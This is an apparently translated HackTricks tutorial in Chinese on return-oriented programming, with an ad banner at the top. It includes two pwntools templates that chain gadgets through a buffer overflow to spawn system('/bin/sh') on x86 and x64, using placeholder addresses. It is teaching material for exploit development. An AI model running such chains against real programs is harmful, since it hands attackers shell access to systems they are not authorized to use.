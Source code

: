 # ROP - Return Oriented Programing

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## **基本信息**

**返回导向编程（ROP）**是一种高级利用技术，用于规避诸如**不可执行（NX）**或**数据执行防护（DEP）**之类的安全措施。攻击者不是注入和执行shellcode，而是利用二进制文件或加载的库中已经存在的代码片段，称为**“gadgets”**。每个gadget通常以`ret`指令结尾，并执行小操作，例如在寄存器之间移动数据或执行算术操作。通过链接这些gadgets，攻击者可以构建有效绕过NX/DEP保护执行任意操作的有效载荷。

### ROP的工作原理

1. **控制流劫持**：首先，攻击者需要劫持程序的控制流，通常是通过利用缓冲区溢出来覆盖栈上保存的返回地址。
2. **Gadget链接**：然后，攻击者仔细选择和链接gadgets以执行所需的操作。这可能涉及为函数调用设置参数，调用函数（例如，`system("/bin/sh")`），以及处理任何必要的清理或附加操作。
3. **有效载荷执行**：当易受攻击的函数返回时，它不是返回到合法位置，而是开始执行gadgets链。

## x86示例中的ROP链

### **x86（32位）调用约定**

- **cdecl**：调用者清理堆栈。函数参数以相反顺序（从右到左）推送到堆栈上。**参数从右到左推送到堆栈上**。
- **stdcall**：类似于cdecl，但被调用方负责清理堆栈。

### **查找Gadgets**

首先，让我们假设我们已经在二进制文件或其加载的库中识别出必要的gadgets。我们感兴趣的gadgets包括：

- `pop eax; ret`：此gadget将堆栈顶部的值弹出到`EAX`寄存器中，然后返回，允许我们控制`EAX`。
- `pop ebx; ret`：类似于上述，但用于`EBX`寄存器，使得可以控制`EBX`。
- `mov [ebx], eax; ret`：将`EAX`中的值移动到由`EBX`指向的内存位置，然后返回。
- 此外，我们有`system()`函数的地址可用。

### **ROP链**

使用**pwntools**，我们为ROP链执行准备堆栈，如下所示，旨在执行`system('/bin/sh')`，请注意链从以下开始：

1. 用于对齐目的的`ret`指令（可选）
2. `system`函数的地址（假设ASLR已禁用且已知libc，更多信息请参阅[**Ret2lib**](ret2lib/)）
3. 来自`system()`的返回地址的占位符
4. `"/bin/sh"`字符串地址（system函数的参数）
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadcode

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
## x64中的ROP链示例

### **x64（64位）调用约定**

* 在类Unix系统上使用 **System V AMD64 ABI** 调用约定，其中 **前六个整数或指针参数传递到寄存器 `RDI`, `RSI`, `RDX`, `RCX`, `R8`, 和 `R9`**。额外的参数通过堆栈传递。返回值放在 `RAX` 中。
* **Windows x64** 调用约定使用 `RCX`, `RDX`, `R8`, 和 `R9` 作为前四个整数或指针参数，额外的参数通过堆栈传递。返回值放在 `RAX` 中。
* **寄存器**：64位寄存器包括 `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, 和 `R8` 到 `R15`。

#### **查找Gadgets**

为了我们的目的，让我们专注于能够设置 **RDI** 寄存器（将 **"/bin/sh"** 字符串作为参数传递给 **system()**）并调用 **system()** 函数的gadgets。我们假设已经识别出以下gadgets：

* **pop rdi; ret**：将堆栈顶部的值弹出到 **RDI** 中，然后返回。用于为 **system()** 设置参数至关重要。
* **ret**：简单的返回，对于某些情况下的堆栈对齐很有用。

我们知道 **system()** 函数的地址。

### **ROP链**

以下是一个使用 **pwntools** 的示例，设置并执行一个ROP链，旨在在 **x64** 上执行 **system('/bin/sh')**：
```python
pythonCopy codefrom pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
在这个例子中：

* 我们利用 **`pop rdi; ret`** 片段将 **`RDI`** 设置为 **`"/bin/sh"`** 的地址。
* 在设置完 **`RDI`** 后，我们直接跳转到 **`system()`**，链中包含 **system()** 的地址。
* 如果目标环境需要，可以使用 **`ret_gadget`** 进行对齐，这在 **x64** 中更常见，以确保在调用函数之前正确对齐堆栈。

### 堆栈对齐

**x86-64 ABI** 确保在执行 **call 指令** 时 **堆栈是 16 字节对齐**的。**LIBC** 为了优化性能，**使用 SSE 指令**（如 **movaps**）需要这种对齐。如果堆栈没有正确对齐（意味着 **RSP** 不是 16 的倍数），在 **ROP 链**中调用 **system** 等函数将失败。要解决这个问题，在调用 **system** 之前在你的 ROP 链中添加一个 **ret gadget**。

## x86 与 x64 的主要区别

{% hint style="success" %}
由于 x64 使用寄存器传递前几个参数，对于简单的函数调用通常需要的 gadget 较少，但由于寄存器数量增加和地址空间更大，找到并链接正确的 gadget 可能更复杂。**x64** 架构中寄存器数量的增加和地址空间的扩大为利用开发提供了机遇和挑战，特别是在 Return-Oriented Programming (ROP) 的背景下。
{% endhint %}

## 保护机制

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/)
* [**堆栈 Canary**](../common-binary-protections-and-bypasses/stack-canaries/)

## 其他示例和参考资料

* [https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions)

## 基于 ROP 的技术

请注意，ROP 只是一种执行任意代码的技术。基于 ROP，开发了许多 Ret2XXX 技术：

* **Ret2lib**：使用 ROP 从加载的库中调用带有任意参数的任意函数（通常类似于 `system('/bin/sh')`）。

{% content-ref url="ret2lib/" %}
[ret2lib](ret2lib/)
{% endcontent-ref %}

* **Ret2Syscall**：使用 ROP 准备对系统调用的调用，例如 `execve`，并使其执行任意命令。

{% content-ref url="rop-syscall-execv.md" %}
[rop-syscall-execv.md](rop-syscall-execv.md)
{% endcontent-ref %}

* **EBP2Ret 和 EBP 链接**：第一个将滥用 EBP 而不是 EIP 来控制流程，第二个类似于 Ret2lib，但在这种情况下，流程主要由 EBP 地址控制（尽管也需要控制 EIP）。

{% content-ref url="ebp2ret-ebp-chaining.md" %}
[ebp2ret-ebp-chaining.md](ebp2ret-ebp-chaining.md)
{% endcontent-ref %}
